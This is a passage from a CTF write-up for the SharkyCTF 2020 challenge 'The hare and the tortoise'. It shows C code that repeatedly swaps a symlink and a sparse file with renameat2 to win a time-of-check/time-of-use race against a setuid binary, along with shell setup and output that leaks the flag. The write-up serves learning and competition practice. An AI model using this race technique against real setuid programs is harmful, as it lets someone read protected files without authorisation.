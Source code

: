 The solution I took is based on [a video][5] from [liveoverflow][6], which I
had watched earlier this year.

I compiled the following code:

```c
#define _GNU_SOURCE
#define _POSIX_C_SOURCE 200809L
#define _ATFILE_SOURCE

#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <linux/fs.h>
#include <sys/syscall.h>

int main() {
    while (1) {
        syscall(SYS_renameat2, AT_FDCWD, "flag", AT_FDCWD, "sparse", RENAME_EXCHANGE);
    }
}
```

and then created a large file "sparse", and a symlink to the flag inside of my
working directory in `/tmp`.

```sh
ln -s ~/flag.txt flag
truncate -s 10G sparse
```

A [sparse file][7] is a file that doesn't take space on disk (think of it like
compression (I feel like some people will hate me for this definition)).

The `racing.c` program will swap the `flag` symlink and `sparse` file thousands
of times a seconds and hopefully, when the file descriptor is opened for the
"hare", the sparse file will be the one having the name `flag` and the when the
tortoise opens the file, the symlink to `~/flag.txt`.

In one terminal, I ran the racing program that switches the files:

```sh
gcc racing.c
./a.out
```

And in another, I ran the suid binary on `flag`.

```
$ ~/the_hare_and_the_tortoise flag
The tortoise, progressing slowly... : ""
The hare says : "Do you ever get anywhere?"
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
$ ~/the_hare_and_the_tortoise flag
The tortoise, progressing slowly... : ""
The hare says : "Do you ever get anywhere?"
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
$ ~/the_hare_and_the_tortoise flag
The tortoise, progressing slowly... : "s"
```

[0]: https://ctftime.org/team/118762
[1]: https://ctfd.sharkyctf.xyz
[2]: https://ctfd.sharkyctf.xyz/naumachia/config/22
[3]: https://github.com/seanjpagano
[4]: https://github.com/LibWTF/ctf_writeups/blob/master/SharkyCTF-2020/The_hare_and_the_tortoise.md
[5]: https://www.youtube.com/watch?v=5g137gsB9Wk
[6]: https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w
[7]: https://en.wikipedia.org/wiki/Sparse_file